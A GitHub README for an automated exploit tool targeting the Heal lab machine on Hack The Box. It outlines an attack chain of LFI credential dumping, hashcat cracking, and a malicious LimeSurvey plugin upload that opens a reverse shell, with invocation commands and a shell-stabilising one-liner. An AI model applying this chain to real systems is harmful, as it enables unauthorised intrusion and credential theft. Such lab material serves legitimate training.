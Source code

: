 # Heal AutoPwn – HTB Machine Exploit Tool

A full exploitation automation script for the **Heal** Linux machine on Hack The Box. Full write Up -> [WriteUp.md](https://github.com/maikneysm/AutoPwn-Heal.htb/blob/main/WriteUp.md)
## 📋 Description

This tool automates the following:
- Dumping LimeSurvey credentials via LFI
- Cracking the password hash manually (Hashcat/rockyou)
- Deploying a malicious LimeSurvey plugin to trigger a reverse shell
    

---
## 🧠 Requirements

- Python 3.8+
- `requests`
- `bs4`
- `colorama` (optional for colored output)
- A working `burpsuite` proxy on localhost:8080 (if you want to intercept traffic)
    

Install dependencies with:

```bash
pip install requests beautifulsoup4
```

---
## ⚙️ Usage

### Phase 1: Dump and Crack Credentials

```bash
python3 autopwn.py --type getCredentials
```

This will:
- Log in to thevulnerable API
- Dump the SQLite file via LFI
- Extract the email and password hash
- Print the hash with a note like:
    

```
Crack this hash using `hashcat` or a wordlist like `rockyou.txt`
Once cracked, proceed to the next phase with --type getRevShellSlime
```

You can crack it like this:

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

---

### Phase 2: Deploy Reverse Shell via LimeSurvey Plugin
```bash
python3 autopwn.py \
  --type getRevShellSlime \
  --lhost <YOUR-IP> \
  --lport <YOUR-PORT> \
  --adminuser ralph@heal.htb \
  --adminpass <CRACKED-PASSWORD>
```

This will:

1. Generate a malicious LimeSurvey plugin (`pwned.zip`)
2. Log in to the LimeSurvey admin panel
3. Upload and install the plugin
4. Trigger the reverse shell
5. Automatically start a listener and spawn a `/bin/bash` shell
    

---

## 💡 Notes

- The tool checks if the plugin is already uploaded before re-uploading it.
- You can kill the listener cleanly with `Ctrl+C`.
- The script handles CSRF token parsing and redirections automatically.
- If the reverse shell behaves oddly, you can stabilize it inside the shell with:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
